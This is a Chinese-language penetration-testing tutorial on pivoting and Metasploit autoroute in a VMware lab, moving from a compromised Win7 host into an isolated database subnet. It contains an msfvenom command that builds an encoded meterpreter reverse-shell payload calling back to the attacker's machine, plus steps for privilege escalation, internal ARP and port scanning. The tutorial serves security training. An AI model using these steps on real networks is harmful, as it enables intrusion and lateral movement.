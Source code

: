 ```yaml
---
title: Pivoting跳板攻击与自动路由
tags: 红蓝对抗
categories: 内网渗透
top: 11
---
```

## 网络拓扑图及通信原理
我们现在假若得到了`192.168.103.101`的主机权限，但是我们经过收集信息发现只有该win7主机是出网的，里面还有一个网段的主机不出网，那么这时我们就要使用跳板攻击的方式访问到不出网的主机。这里我们假设出网的网段为`192.168.103.0/24`，不出网的数据库主机所处网段为`192.168.104.0/24`，我们在vmware上分别设置好这两个网段。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321120638928.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
vmnet2之前上一章已经配置完成，vmnet3设置DHCP配置
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321121040583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
<!--more-->
**win7**
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321121411556.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)

**windows server2003**
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321121359809.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
<!--more-->
## 攻击过程
现在我们在kali上生成一个木马文件，然后使用win7下载到本机上，使用管理员的权限运行该文件。

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.101.63(这是kali的NAT映射到外网的IP) lport=4444 -b "\x00\xff" -a x86 --platform windows -e x86/shikata_ga_nai -f exe > msf.exe
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321121742286.png)
然后在kali上开启一个HTTP服务，使用win7下载到本机上

```bash
python -m SimpleHTTPServer 4444
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321122221783.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
kali上使用`windows/meterpreter/reverse_tcp`这个漏洞利用模块，其他操作不再赘述
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321122504738.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
进一步提权
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321122804150.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
然后我们在meterpreter上使用`ipconfig`这个命令时，发现了两个网段的IP地址，初步判断有可能是内网敏感数据所处的IP网段
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321122928633.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/202103211229485.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
不说废话，立马开干！首先使用`post/windows/gather/arp_scanner`模块对内网信息进行收集
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321123103614.png)
然后使用自动路由的方式，将`192.168.104.0/24`这个网段添加到路由表中
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321123256486.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
然后将会话拉入后台中，接着我们使用`auxiliary/scanner/portscan/tcp`这个模块扫描主机开放了哪些端口和服务。这里我们就选了几个常用的端口
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210321123522805.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
收集完成！
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021032112354091.png)

